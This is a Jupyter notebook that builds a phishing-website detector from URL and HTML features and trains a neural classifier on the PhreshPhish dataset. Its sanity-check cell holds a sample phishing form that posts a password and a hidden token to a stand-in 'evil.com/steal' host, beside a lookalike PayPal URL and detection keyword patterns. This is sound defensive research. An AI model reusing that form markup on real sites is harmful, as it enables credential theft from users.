In [1]:
# STANDARD LIBRARY
import os
import re
import json
import copy
import math
import zlib
import warnings
from urllib.parse import urlparse

# Data Processing
import numpy as np
import pandas as pd

# HTML Parsing
from bs4 import BeautifulSoup

# Image Processing
from PIL import Image

# PyTorch
import torch
import torch.nn as nn
import torch.nn.functional as F
from torch.utils.data import Dataset, DataLoader

# TorchVision
import torchvision.models as models
import torchvision.transforms as T

# OpenCLIP
!pip install -q open-clip-torch
import open_clip

# Scikit-learn
from sklearn.model_selection import train_test_split
from sklearn.preprocessing import StandardScaler
from sklearn.metrics import (
    roc_auc_score,
    roc_curve,
    classification_report,
    confusion_matrix,
)

# Model Saving
import joblib

# Visualization
import matplotlib.pyplot as plt
import matplotlib.patches as mpatches
import seaborn as sns
warnings.filterwarnings("ignore")

import csv
import sys

   ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 1.5/1.5 MB 7.3 MB/s eta 0:00:0000:0100:01
   ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 44.8/44.8 kB 3.5 MB/s eta 0:00:00


In [2]:
# FEATURE EXTRACTOR
def shannon_entropy(text: str) -> float:
    if not text or len(text) < 2:
        return 0.0
    freq = {}
    for c in text:
        freq[c] = freq.get(c, 0) + 1
    n = len(text)
    return -sum((f / n) * math.log2(f / n)
                for f in freq.values() if f > 0)


def kolmogorov_complexity(text: str) -> float:
    if not text or len(text) < 10:
        return 0.0
    try:
        encoded    = text.encode('utf-8', errors='ignore')
        compressed = zlib.compress(encoded, level=9)
        return len(compressed) / max(len(encoded), 1)
    except Exception:
        return 0.0


def fractal_dimension(html_str: str) -> float:
    try:
        soup   = BeautifulSoup(html_str, 'lxml')
        depths = []

        def traverse(tag, d=0):
            depths.append(d)
            for child in tag.children:
                if hasattr(child, 'children'):
                    traverse(child, d + 1)

        traverse(soup)
        if len(depths) < 2:
            return 0.0

        max_d = max(depths) + 1
        if max_d < 2:
            return 0.0

        counts, scales = [], []
        for box in range(1, max_d + 1):
            boxes = set(d // box for d in depths)
            counts.append(len(boxes))
            scales.append(box)

        log_s = [math.log(s) for s in scales if s > 0]
        log_c = [math.log(c) for c, s in zip(counts, scales)
                 if c > 0 and s > 0]

        n   = min(len(log_s), len(log_c))
        if n < 2:
            return 0.0

        xs, ys = log_s[:n], log_c[:n]
        xm, ym = sum(xs)/n, sum(ys)/n
        num = sum((x-xm)*(y-ym) for x, y in zip(xs, ys))
        den = sum((x-xm)**2 for x in xs)
        return abs(num / den) if den != 0 else 0.0

    except Exception:
        return 0.0


def hex_pattern_count(text: str) -> int:
    return len(re.findall(r'%[0-9a-fA-F]{2}', text))


def base64_pattern_count(text: str) -> int:
    return len(re.findall(r'[A-Za-z0-9+/]{20,}={0,2}', text))

def extract_url_features(url: str) -> dict:
    if not url:
        url = ""
    try:
        p      = urlparse(url)
        domain = p.netloc  or ""
        path   = p.path    or ""
        query  = p.query   or ""
        frag   = p.fragment or ""
    except Exception:
        domain = path = query = frag = ""

    L        = max(len(url), 1)
    letters  = re.findall(r'[a-zA-Z]', url)
    digits   = re.findall(r'\d', url)
    specials = re.findall(r'[@!$%^*()_+|~=`{}\[\]:";\'<>,\\]', url)
    tld      = domain.split('.')[-1] if '.' in domain else ''
    subdoms  = max(0, len(domain.split('.')) - 2)

    return {
        'LengthOfURL'          : len(url),
        'DomainLengthOfURL'    : len(domain),
        'IsDomainIP'           : int(bool(re.match(
                                    r'^\d{1,3}(\.\d{1,3}){3}$',
                                    domain))),
        'TLDLength'            : len(tld),
        'LetterCntInURL'       : len(letters),
        'URLLetterRatio'       : len(letters) / L,
        'DigitCntInURL'        : len(digits),
        'URLDigitRatio'        : len(digits) / L,
        'EqualCharCntInURL'    : url.count('='),
        'QuesMarkCntInURL'     : url.count('?'),
        'AmpCharCntInURL'      : url.count('&'),
        'OtherSpclCharCntInURL': len(specials),
        'URLOtherSpclCharRatio': len(specials) / L,
        'NumberOfHashtags'     : url.count('#'),
        'NumberOfSubdomains'   : subdoms,
        'HavingPath'           : int(bool(path and path != '/')),
        'PathLength'           : len(path),
        'HavingQuery'          : int(bool(query)),
        'HavingFragment'       : int(bool(frag)),
        'HavingAnchor'         : int('#' in url),
        'HasSSL'               : int(url.startswith('https')),
    }

def _is_external(val: str, domain: str) -> bool:
    if not val:
        return False
    return (val.startswith('http') and
            bool(domain) and
            domain not in val)


def extract_html_features(html_str: str, url: str = "") -> dict:
    if not html_str:
        html_str = ""

    try:
        domain = urlparse(url).netloc or ""
    except Exception:
        domain = ""

    h = html_str.lower()

    # ── defaults in case soup fails ─────────────────────────────
    (img_cnt, css_cnt, js_cnt, self_refs, empty_refs,
     ext_refs, popup_cnt, iframe_cnt, form_cnt,
     has_pass, has_hidden, has_submit,
     ext_form, line_cnt, longest_line) = (
        0, 0, 0, 0, 0, 0, 0, 0, 0,
        False, False, False, False,
        html_str.count('\n'),
        max((len(l) for l in html_str.split('\n')), default=0)
    )

    try:
        soup    = BeautifulSoup(html_str, 'lxml')
        forms   = soup.find_all('form')
        inputs  = soup.find_all('input')
        iframes = soup.find_all('iframe')
        scripts = soup.find_all('script')
        imgs    = soup.find_all('img')
        anchors = soup.find_all('a')
        links   = soup.find_all('link')
        buttons = soup.find_all('button')

        img_cnt   = len(imgs)
        js_cnt    = len(scripts)
        iframe_cnt= len(iframes)
        form_cnt  = len(forms)
        css_cnt   = sum(1 for l in links if 'stylesheet' in (l.get('rel') or []))
        popup_cnt = len(re.findall( r'window\.open\s*\(', html_str, re.I))

        ext_refs  = sum(1 for a in anchors if _is_external( a.get('href',''), domain))
        self_refs = sum(1 for a in anchors if not _is_external( a.get('href',''), domain) and a.get('href','') not in  ('', '#', None))
        empty_refs= sum(1 for a in anchors if a.get('href','') in ('', '#', None))

        ext_form  = any(_is_external( f.get('action',''), domain) for f in forms)
        has_pass  = any( i.get('type','').lower() == 'password'  for i in inputs)
        has_hidden= any( i.get('type','').lower() == 'hidden' for i in inputs)
        has_submit= ( any(i.get('type','').lower() == 'submit' for i in inputs) or len(buttons) > 0 )

    except Exception:
        pass

    return {
        # Structural counts
        'LineOfCode'          : line_cnt,
        'LongestLineLength'   : longest_line,
        'CntImages'           : img_cnt,
        'CntFilesCSS'         : css_cnt,
        'CntFilesJS'          : js_cnt,
        'CntSelfHRef'         : self_refs,
        'CntEmptyRef'         : empty_refs,
        'CntExternalRef'      : ext_refs,
        'CntPopup'            : popup_cnt,
        'CntIFrame'           : iframe_cnt,
        'CntForms'            : form_cnt,
        # Boolean flags
        'HasTitle'            : int(bool(re.search( r'<title[^>]*>[^<]+</title>',  html_str, re.I))),
        'HasFavicon'          : int(bool(re.search(  r'rel=["\'].*icon', html_str, re.I))),
        'HasDescription'      : int(bool(re.search( r'name=["\']description["\']', html_str, re.I))),
        'HasSocialMediaPage'  : int(bool(re.search( r'facebook\.com|twitter\.com|' r'instagram\.com|linkedin\.com|' r'youtube\.com', h))),
        'HasSubmitButton'     : int(has_submit),
        'HasPasswordFields'   : int(has_pass),
        'HasPopup'            : int(popup_cnt > 0),
        'HasIFrame'           : int(iframe_cnt > 0),
        'IsFormSubmitExternal': int(ext_form),
        'HasHiddenFields'     : int(has_hidden),
        'IsResponsive'        : int(bool(re.search(r'viewport.*width=device-width',html_str, re.I))),
        'HasRobotsBlocked'    : int('noindex' in h or'nofollow' in h),
        # Keyword signals
        'HasBankingKey'       : int(bool(re.search(r'\b(bank|banking|account'r'|wire|routing)\b', h))),
        'HasPaymentKey'       : int(bool(re.search( r'\b(pay|payment|checkout' r'|invoice|billing)\b', h))),
        'HasCryptoKey'        : int(bool(re.search( r'\b(crypto|bitcoin|ethereum' r'|wallet|blockchain)\b', h))),
        'HasCopyrightInfoKey' : int(bool(re.search( r'©|&copy;|copyright', h))),
    }

def extract_all(url: str, html_str: str) -> dict:
    url_feats  = extract_url_features(url)
    html_feats = extract_html_features(html_str, url)

    hard_feats = {
        'ShannonEntropy'      : shannon_entropy(url),
        'KolmogorovComplexity': kolmogorov_complexity(html_str),
        'FractalDimension'    : fractal_dimension(html_str),
        'HexPatternCnt'       : hex_pattern_count(url),
        'Base64PatternCnt'    : base64_pattern_count(html_str),
    }

    return {**hard_feats, **url_feats, **html_feats}


# Column order — consistent across all uses
_DUMMY   = extract_all("https://example.com", "<html></html>")
ALL_FEATURES = list(_DUMMY.keys())


if __name__ == "__main__":
    # Quick sanity check
    test_html = """<html><body>
    <form action="http://evil.com/steal" method="POST">
    <input type="password" name="pin">
    <input type="hidden" name="token" value="abc">
    <button type="submit">Login</button>
    </form>
    <iframe src="http://track.evil.com"></iframe>
    </body></html>"""

    feats = extract_all("http://paypa1-secure.evil.net/login",
                        test_html)
    print(f"Features extracted : {len(feats)}")
    print(f"ShannonEntropy     : {feats['ShannonEntropy']:.4f}")
    print(f"KolmogorovComplexity: {feats['KolmogorovComplexity']:.4f}")
    print(f"FractalDimension   : {feats['FractalDimension']:.4f}")
    print(f"HasPasswordFields  : {feats['HasPasswordFields']}")
    print(f"IsFormSubmitExternal: {feats['IsFormSubmitExternal']}")
    print(f"HasIFrame          : {feats['HasIFrame']}")
    print(f"\nAll feature names:\n{ALL_FEATURES}")

Features extracted : 53
ShannonEntropy     : 4.2074
KolmogorovComplexity: 0.6214
FractalDimension   : 0.8892
HasPasswordFields  : 1
IsFormSubmitExternal: 1
HasIFrame          : 1

All feature names:
['ShannonEntropy', 'KolmogorovComplexity', 'FractalDimension', 'HexPatternCnt', 'Base64PatternCnt', 'LengthOfURL', 'DomainLengthOfURL', 'IsDomainIP', 'TLDLength', 'LetterCntInURL', 'URLLetterRatio', 'DigitCntInURL', 'URLDigitRatio', 'EqualCharCntInURL', 'QuesMarkCntInURL', 'AmpCharCntInURL', 'OtherSpclCharCntInURL', 'URLOtherSpclCharRatio', 'NumberOfHashtags', 'NumberOfSubdomains', 'HavingPath', 'PathLength', 'HavingQuery', 'HavingFragment', 'HavingAnchor', 'HasSSL', 'LineOfCode', 'LongestLineLength', 'CntImages', 'CntFilesCSS', 'CntFilesJS', 'CntSelfHRef', 'CntEmptyRef', 'CntExternalRef', 'CntPopup', 'CntIFrame', 'CntForms', 'HasTitle', 'HasFavicon', 'HasDescription', 'HasSocialMediaPage', 'HasSubmitButton', 'HasPasswordFields', 'HasPopup', 'HasIFrame', 'IsFormSubmitExternal', 'HasHiddenFi

In [3]:
# # STREAM AND EXTRACT FROM HUGGING FACE
# # ═══════════════════════════════════════════════════════════════
# # Stream PhreshPhish → extract features → save to CSV
# # Also saves 10K benign + 10K phishing raw HTML for later testing
# # Run this ONCE on Kaggle, upload outputs as datasets
# # ═══════════════════════════════════════════════════════════════

# !pip install datasets beautifulsoup4 lxml -q
# sys.path.append('/kaggle/working')

# from datasets import load_dataset
# #from feature_extractor import extract_all, ALL_FEATURES

# # ── CONFIG ─────────────────────────────────────────────────────
# FEATURES_CSV   = "phreshphish_features.csv"   # extracted features
# RAW_TEST_CSV   = "phreshphish_raw_test.csv"   # raw HTML for testing

# TRAIN_PER_CLASS= 1500   # for feature CSV (train + val)
# TEST_PER_CLASS = 1000   # raw HTML held out for testing
# MAX_HTML_CHARS = 8000   # cap to save RAM

# # ── COUNTERS ────────────────────────────────────────────────────
# feat_benign    = 0
# feat_phishing  = 0
# test_benign    = 0
# test_phishing  = 0
# error_count    = 0

# ALL_COLS_FEAT  = ['url', 'label'] + ALL_FEATURES
# ALL_COLS_RAW   = ['url', 'html', 'label']

# print(f"Feature columns : {len(ALL_FEATURES)}")
# print(f"Train target    : {TRAIN_PER_CLASS} per class → features CSV")
# print(f"Test target     : {TEST_PER_CLASS}  per class → raw HTML CSV")
# print(f"Total to collect: "f"{(TRAIN_PER_CLASS + TEST_PER_CLASS) * 2} rows\n")

# with open(FEATURES_CSV, 'w', newline='', encoding='utf-8') as f_feat, \
#      open(RAW_TEST_CSV, 'w', newline='', encoding='utf-8') as f_raw:

#     feat_writer = csv.DictWriter(f_feat, fieldnames=ALL_COLS_FEAT)
#     raw_writer  = csv.DictWriter(f_raw,  fieldnames=ALL_COLS_RAW)
#     feat_writer.writeheader()
#     raw_writer.writeheader()
#     f_feat.flush()
#     f_raw.flush()

#     dataset = load_dataset(
#         'phreshphish/phreshphish',
#         split='train',
#         streaming=True
#     )

#     for i, row in enumerate(dataset):
#         label_str = row['label']             # 'benign' or 'phishing'
#         label_int = 0 if label_str == 'benign' else 1
#         url       = row['url']  or ''
#         html      = (row['html'] or '')[:MAX_HTML_CHARS]

#         feat_full = (feat_benign   >= TRAIN_PER_CLASS and
#                      feat_phishing >= TRAIN_PER_CLASS)
#         test_full = (test_benign   >= TEST_PER_CLASS  and
#                      test_phishing >= TEST_PER_CLASS)

#         if feat_full and test_full:
#             print(f"\n  All targets met at row {i}. Done.")
#             break

#         # ── Decide where this row goes ─────────────────────────
#         go_feat = (
#             (label_str == 'benign'   and feat_benign   < TRAIN_PER_CLASS) or
#             (label_str == 'phish' and feat_phishing < TRAIN_PER_CLASS)
#         )
#         go_test = (
#             not go_feat and
#             (label_str == 'benign'   and test_benign   < TEST_PER_CLASS) or
#             (label_str == 'phish' and test_phishing < TEST_PER_CLASS)
#         )

#         if go_feat:
#             # Extract features and write — row discarded after
#             try:
#                 feats   = extract_all(url, html)
#                 out_row = {'url': url, 'label': label_int}
#                 out_row.update(feats)
#                 feat_writer.writerow(out_row)
#                 f_feat.flush()
#                 if label_str == 'benign':
#                     feat_benign += 1
#                 else:
#                     feat_phishing += 1
#             except Exception as e:
#                 error_count += 1

#         elif go_test:
#             # Save raw HTML for later testing
#             try:
#                 raw_writer.writerow({
#                     'url'  : url,
#                     'html' : html,
#                     'label': label_int
#                 })
#                 f_raw.flush()
#                 if label_str == 'benign':
#                     test_benign += 1
#                 else:
#                     test_phishing += 1
#             except Exception as e:
#                 error_count += 1

#         if i % 500 == 0:
#             print(f"  Row {i:>7} | "
#                   f"feat b={feat_benign:>5} p={feat_phishing:>5} | "
#                   f"test b={test_benign:>5} p={test_phishing:>5} | "
#                   f"err={error_count}")

# print(f"\n{'='*60}")
# print(f"  FEATURES CSV  : {FEATURES_CSV}")
# print(f"    Benign rows : {feat_benign}")
# print(f"    Phish rows  : {feat_phishing}")
# print(f"  RAW TEST CSV  : {RAW_TEST_CSV}")
# print(f"    Benign rows : {test_benign}")
# print(f"    Phish rows  : {test_phishing}")
# print(f"  Errors        : {error_count}")
# print(f"{'='*60}")

In [4]:
# #EXTRACT FEATURES FROM RAW HTML TEST SET FOR ABLATION STUDY
# # ═══════════════════════════════════════════════════════════════
# # Input : phreshphish_raw_test.csv  (url, html, label)
# # Output: phreshphish_test_features.csv  (url, label, <ALL_FEATURES>)
# # ═══════════════════════════════════════════════════════════════


# sys.path.append('/kaggle/working')

# # ── CONFIG ─────────────────────────────────────────────────────
# RAW_TEST_CSV     = "/kaggle/input/datasets/**/hf-perisfish-dataset-uap-thesis/phreshphish_raw_test.csv"
# OUT_FEATURES_CSV = "phreshphish_test_features.csv"

# ALL_COLS_FEAT = ['url', 'label'] + ALL_FEATURES

# # ── COUNTERS ────────────────────────────────────────────────────
# n_ok  = 0
# n_err = 0

# csv.field_size_limit(sys.maxsize)  # HTML can be large (up to 100000 chars now)

# with open(RAW_TEST_CSV, 'r', newline='', encoding='utf-8') as f_in, \
#      open(OUT_FEATURES_CSV, 'w', newline='', encoding='utf-8') as f_out:

#     reader = csv.DictReader(f_in)
#     writer = csv.DictWriter(f_out, fieldnames=ALL_COLS_FEAT)
#     writer.writeheader()

#     for i, row in enumerate(reader):
#         url   = row['url']   or ''
#         html  = row['html']  or ''
#         label = row['label']   # already 0/1 from raw_test.csv

#         try:
#             feats = extract_all(url, html)
#             out_row = {'url': url, 'label': label}
#             out_row.update(feats)
#             writer.writerow(out_row)
#             n_ok += 1
#         except Exception as e:
#             n_err += 1

#         if i % 500 == 0:
#             print(f"  Row {i:>7} | ok={n_ok:>6} | err={n_err:>5}")
#             f_out.flush()

# print(f"\n{'='*60}")
# print(f"  OUTPUT CSV : {OUT_FEATURES_CSV}")
# print(f"    Rows OK  : {n_ok}")
# print(f"    Errors   : {n_err}")
# print(f"{'='*60}")

In [5]:
# MODELS AND DOMAINS
# ── GFhD MODEL ──────────────────────────────────────────────────
class GFhD(nn.Module):
    def __init__(self, input_dim, dropout=0.3):
        super().__init__()
        self.net = nn.Sequential(
            nn.Linear(input_dim, 256),
            nn.BatchNorm1d(256), nn.ReLU(),
            nn.Dropout(dropout),

            nn.Linear(256, 256),
            nn.BatchNorm1d(256), nn.ReLU(),
            nn.Dropout(dropout),

            nn.Linear(256, 128),
            nn.BatchNorm1d(128), nn.ReLU(),
            nn.Dropout(dropout),

            nn.Linear(128, 64),
            nn.BatchNorm1d(64), nn.ReLU(),
            nn.Dropout(dropout),
        )
        self.out = nn.Linear(64, 1)

    def forward(self, x):
        return self.out(self.net(x)).squeeze(-1)

    def predict_proba(self, x):
        return torch.sigmoid(self.forward(x))




class ViS(nn.Module):
    def __init__(self, out_dim=512, dropout=0.3):
        super().__init__()
        bb            = models.mobilenet_v3_small(weights=models.MobileNet_V3_Small_Weights.IMAGENET1K_V1)
        self.features = bb.features
        self.avgpool  = bb.avgpool
        self.proj     = nn.Sequential(
            nn.Linear(576, 256),
            nn.Hardswish(),
            nn.Dropout(p=dropout),
            nn.Linear(256, out_dim)
        )

    def forward(self, x):
        x = self.features(x)
        x = self.avgpool(x).flatten(1)
        return F.normalize(self.proj(x), p=2, dim=1)

# class ViS(nn.Module):
#     """
#     Tiny vanilla CNN visual encoder (~1-2MB, no pretrained backbone).
#     Outputs an L2-normalized embedding of size `out_dim`.
#     """
#     def __init__(self, out_dim=128, dropout=0.3, in_channels=3):
#         super().__init__()

#         def dw_block(in_ch, out_ch, stride=1):
#             return nn.Sequential(
#                 nn.Conv2d(in_ch, in_ch, kernel_size=3, stride=stride, padding=1, groups=in_ch, bias=False),
#                 nn.BatchNorm2d(in_ch),
#                 nn.ReLU(inplace=True),
#                 nn.Conv2d(in_ch, out_ch, kernel_size=1, bias=False),
#                 nn.BatchNorm2d(out_ch),
#                 nn.ReLU(inplace=True),
#             )

#         self.features = nn.Sequential(
#             nn.Conv2d(in_channels, 8, kernel_size=3, stride=2, padding=1, bias=False),  # 224 -> 112
#             nn.BatchNorm2d(8),
#             nn.ReLU(inplace=True),

#             dw_block(8, 16, stride=2),    # 112 -> 56
#             dw_block(16, 32, stride=2),   # 56 -> 28
#             dw_block(32, 64, stride=2),   # 28 -> 14
#             dw_block(64, 64, stride=2),   # 14 -> 7
#         )

#         self.avgpool = nn.AdaptiveAvgPool2d(1)

#         self.proj = nn.Sequential(
#             nn.Linear(64, 64),
#             nn.Hardswish(),
#             nn.Dropout(p=dropout),
#             nn.Linear(64, out_dim)
#         )

#     def forward(self, x):
#         x = self.features(x)
#         x = self.avgpool(x).flatten(1)
#         return F.normalize(self.proj(x), p=2, dim=1)
        
        
DOMAIN_MAP = {
    # ── Global platforms ──────────────────────────────────────
    "AliExpress"    : "aliexpress.com",
    "Alibaba"       : "alibaba.com",
    "Amazon"        : "amazon.com",
    "ChatGPT"       : "chatgpt.com",
    "Claude"        : "claude.ai",
    "Facebook"      : "facebook.com",
    "Gemini"        : "gemini.google.com",
    "Google"        : "google.com",
    "GrokAi"        : "grok.com",
    "Instagram"     : "instagram.com",
    "Linkedin"      : "linkedin.com",
    "YouTube"       : "youtube.com",

    # ── Bangladeshi e-commerce / news ─────────────────────────
    "Bikroy"        : "bikroy.com",
    "Daraz"         : "daraz.com.bd",
    "DailyStar"     : "thedailystar.net",
    "Jugantor"      : "jugantor.com",
    "Kalerkantho"   : "kalerkantho.com",
    "ProthomAlo"    : "prothomalo.com",

    # ── Bangladeshi banks ──────────────────────────────────────
    "BRACBank"                      : "bracbank.com",
    "BangladeshDevelopmentBank"     : "bdbl.com.bd",
    "BangladeshKrishiBank"          : "krishibank.org.bd",
    "BankAsia"                      : "bankasia-bd.com",
    "BasicBank"                     : "basicbanklimited.com",
    "CityBank"                      : "thecitybank.com",
    "DutchBanglaBank"               : "dutchbanglabank.com",
    "EasternBank"                   : "ebl.com.bd",
    "IslamiBank"                    : "islamibankbd.com",
    "JanataBank"                    : "jb.com.bd",
    "MutualTrustBank"               : "mutualtrustbank.com",
    "PrimeBank"                     : "primebank.com.bd",
    "ProbashiKallyanBank"           : "pkb.gov.bd",
    "PubaliBank"                    : "pubalibangla.com",
    "RupaliBank"                    : "rupalibank.org",
    "SonaliBank"                    : "sonalibank.com.bd",
    "UnitedCommercialBank"          : "ucb.com.bd",

    # ── Bangladeshi universities ───────────────────────────────
    "BangladeshUniversityofEngineeringTechnology" : "buet.ac.bd",
    "ChittagongUniversityofEngineeringTechnology" : "cuet.ac.bd",
    "JahangirnagarUniversity"                     : "juniv.edu",
    "KhulnaUniveristy"                            : "ku.ac.bd",
    "RajshahiUniversityofEngineeringTechnology"   : "ruet.ac.bd",
    "ShahjalalUniversityofScienceandTechnology"   : "sust.edu",
    "UniversityofChittagong"                      : "cu.ac.bd",
    "UniversityofDhaka"                           : "du.ac.bd",
    "UniversityofRajshahi"                        : "ru.ac.bd",

    # ── Mobile financial services ──────────────────────────────
    "Upay"          : "upay.com.bd",
}

Device: cuda

[1/6] Loading features CSV...
  Rows  : 300,000
  Labels: {0: 150000, 1: 150000}
  Features used: 53

[2/6] Splitting...
  Train:210,000 Val:30,000 Test:60,000

[3/6] Building GFhD...
  Parameters: 122,241
  Input dim : 53

[4/6] Training GFhD...
  Epoch   1/35 | train=0.1715 | val=0.1123 | val_auc=0.9917
  Epoch   6/35 | train=0.0928 | val=0.0842 | val_auc=0.9952
  Epoch  11/35 | train=0.0800 | val=0.0734 | val_auc=0.9962
  Epoch  16/35 | train=0.0734 | val=0.0689 | val_auc=0.9966
  Epoch  21/35 | train=0.0675 | val=0.0680 | val_auc=0.9969
  Epoch  26/35 | train=0.0646 | val=0.0668 | val_auc=0.9970
  Epoch  31/35 | train=0.0616 | val=0.0631 | val_auc=0.9972
  Epoch  35/35 | train=0.0590 | val=0.0621 | val_auc=0.9973
  Best val AUC: 0.9973

[5/6] Evaluating on test set...

  Test AUC : 0.9976
              precision    recall  f1-score   support

      Benign       0.97      0.99      0.98     30000
    Phishing       0.99      0.97      0.98     30000

    accuracy      




  Saved: gfhd_best.pt | gfhd_scaler.pkl | gfhd_results.png
  Test AUC: 0.9976


In [6]:
# TRAIN GHFD MODEL
# ═══════════════════════════════════════════════════════════════
# GFhD — Generalized Phishing Detector
# Trained on ALL extracted features (hard + URL + HTML)
# Full-size MLP — no deployment size constraint
# ═══════════════════════════════════════════════════════════════


warnings.filterwarnings('ignore')

# ── CONFIG ─────────────────────────────────────────────────────
CSV_PATH    = "/kaggle/input/datasets/**/perish-fish-hf-fearures/phreshphish_features.csv"
RANDOM_SEED = 42
TEST_SIZE   = 0.2
VAL_SIZE    = 0.1
BATCH_SIZE  = 512
EPOCHS      = 35
LR          = 1e-3
DEVICE      = torch.device("cuda" if torch.cuda.is_available() else "cpu")
print(f"Device: {DEVICE}")

torch.manual_seed(RANDOM_SEED)
np.random.seed(RANDOM_SEED)

# ── FEATURE GROUPS ──────────────────────────────────────────────
HARD_FEATURES = [
    'ShannonEntropy', 'KolmogorovComplexity',
    'FractalDimension', 'HexPatternCnt', 'Base64PatternCnt'
]
URL_FEATURES = [
    'LengthOfURL', 'DomainLengthOfURL', 'IsDomainIP',
    'TLDLength', 'LetterCntInURL', 'URLLetterRatio',
    'DigitCntInURL', 'URLDigitRatio', 'EqualCharCntInURL',
    'QuesMarkCntInURL', 'AmpCharCntInURL',
    'OtherSpclCharCntInURL', 'URLOtherSpclCharRatio',
    'NumberOfHashtags', 'NumberOfSubdomains',
    'HavingPath', 'PathLength', 'HavingQuery',
    'HavingFragment', 'HavingAnchor', 'HasSSL'
]
HTML_FEATURES = [
    'LineOfCode', 'LongestLineLength', 'CntImages',
    'CntFilesCSS', 'CntFilesJS', 'CntSelfHRef',
    'CntEmptyRef', 'CntExternalRef', 'CntPopup',
    'CntIFrame', 'CntForms', 'HasTitle', 'HasFavicon',
    'HasDescription', 'HasSocialMediaPage', 'HasSubmitButton',
    'HasPasswordFields', 'HasPopup', 'HasIFrame',
    'IsFormSubmitExternal', 'HasHiddenFields',
    'IsResponsive', 'HasRobotsBlocked', 'HasBankingKey',
    'HasPaymentKey', 'HasCryptoKey', 'HasCopyrightInfoKey'
]
ALL_FEAT = HARD_FEATURES + URL_FEATURES + HTML_FEATURES

# ── LOAD DATA ───────────────────────────────────────────────────
print("\n[1/6] Loading features CSV...")
df = pd.read_csv(CSV_PATH)
df.columns = df.columns.str.strip()
print(f"  Rows  : {len(df):,}")
print(f"  Labels: {df['label'].value_counts().to_dict()}")

# Keep only available features
ALL_FEAT = [f for f in ALL_FEAT if f in df.columns]
print(f"  Features used: {len(ALL_FEAT)}")

# Log1p skewed features
SKEWED = [
    'LengthOfURL', 'LetterCntInURL', 'DigitCntInURL',
    'EqualCharCntInURL', 'QuesMarkCntInURL', 'AmpCharCntInURL',
    'OtherSpclCharCntInURL', 'NumberOfHashtags', 'PathLength',
    'LineOfCode', 'LongestLineLength', 'CntImages',
    'CntFilesCSS', 'CntFilesJS', 'CntSelfHRef', 'CntEmptyRef',
    'CntExternalRef', 'CntPopup', 'CntIFrame',
    'HexPatternCnt', 'Base64PatternCnt'
]
for col in SKEWED:
    if col in df.columns:
        df[col] = np.log1p(df[col].clip(lower=0))

X = df[ALL_FEAT].values.astype(np.float32)
y = df['label'].values.astype(np.float32)

# ── SPLIT ───────────────────────────────────────────────────────
print("\n[2/6] Splitting...")
X_tmp, X_test, y_tmp, y_test = train_test_split(X, y, test_size=TEST_SIZE,random_state=RANDOM_SEED, stratify=y)
val_r = VAL_SIZE / (1 - TEST_SIZE)
X_train, X_val, y_train, y_val = train_test_split(X_tmp, y_tmp, test_size=val_r,random_state=RANDOM_SEED, stratify=y_tmp)
print(f"  Train:{len(X_train):,} Val:{len(X_val):,} "f"Test:{len(X_test):,}")

# ── SCALE ───────────────────────────────────────────────────────
scaler = StandardScaler()
X_train = scaler.fit_transform(X_train).astype(np.float32)
X_val   = scaler.transform(X_val).astype(np.float32)
X_test  = scaler.transform(X_test).astype(np.float32)
joblib.dump(scaler, "gfhd_scaler.pkl")

# ── DATASET ─────────────────────────────────────────────────────
class TabDataset(torch.utils.data.Dataset):
    def __init__(self, X, y):
        self.X = torch.tensor(X, dtype=torch.float32)
        self.y = torch.tensor(y, dtype=torch.float32)
    def __len__(self): return len(self.y)
    def __getitem__(self, i): return self.X[i], self.y[i]

tr_ldr = DataLoader(TabDataset(X_train, y_train),BATCH_SIZE, shuffle=True)
vl_ldr = DataLoader(TabDataset(X_val,   y_val),BATCH_SIZE, shuffle=False)
ts_ldr = DataLoader(TabDataset(X_test,  y_test),BATCH_SIZE, shuffle=False)

print("\n[3/6] Building GFhD...")
model  = GFhD(input_dim=len(ALL_FEAT)).to(DEVICE)
n_par  = sum(p.numel() for p in model.parameters())
print(f"  Parameters: {n_par:,}")
print(f"  Input dim : {len(ALL_FEAT)}")

# ── TRAIN ───────────────────────────────────────────────────────
print("\n[4/6] Training GFhD...")
optim  = torch.optim.AdamW(model.parameters(), lr=LR, weight_decay=1e-5)
sched  = torch.optim.lr_scheduler.ReduceLROnPlateau(optim, mode='min', factor=0.5, patience=5)
crit   = nn.BCEWithLogitsLoss()

